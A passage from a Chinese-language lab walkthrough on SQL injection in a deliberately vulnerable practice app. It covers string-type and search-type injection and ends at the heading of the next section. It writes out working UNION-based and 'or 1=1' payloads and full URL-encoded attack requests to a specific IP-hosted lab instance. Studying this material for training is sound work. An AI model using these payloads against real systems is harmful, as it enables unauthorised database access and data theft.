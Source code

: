 拼接到原来语句中就是一个完整的注入语句了。

```mysql
select uid字段, email字段 from 用户表表 where username='' union select 1,'Inject by C'#'
```

GET传参数注意要url编码，所以完整payload是

```http
http://123.56.245.68:83/vul/sqli/sqli_str.php?name='%20union%20select%201%2c'Inject by C'%23
&submit=%E6%9F%A5%E8%AF%A2
```

好了，演练就到这里了。下面我们来看一下代码审计：

这个和上面的区别就是多了一个字符串加了单引号。

![image-20210105151330313](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210105151330313.png)

## 7、搜索型注入

![image-20210105153218645](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210105153218645.png)

我们先随便输入尝试一下。输入l，看看返回什么结果。

![image-20210105153435939](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210105153435939.png)

一般搜索功能都会用到SQL模糊匹配功能，如：搜索所有用户名含有k的用户

```
select * from USER where usename='%l%';
```

构造payload的思路和字符型一样，构造闭合就好了，可以构造payload

```mysql
l%' union select 1,2,'sqlitest'#
```

url编码并整合到get传参给服务器执行

```http
http://123.56.245.68:83/vul/sqli/sqli_search.php
?name=l%25'%20union%20select%201%2c2%2c'sqlitest'%23
&submit=%E6%90%9C%E7%B4%A2
```

![image-20210105153659170](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210105153659170.png)

```
当然我们也可以构建n多payload: like '%xxxx%'or 1=1#%'
xxxx%'or 1=1#
```

下面我们来看一看源码：

![image-20210105153725078](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210105153725078.png)

## 8、XX型注入
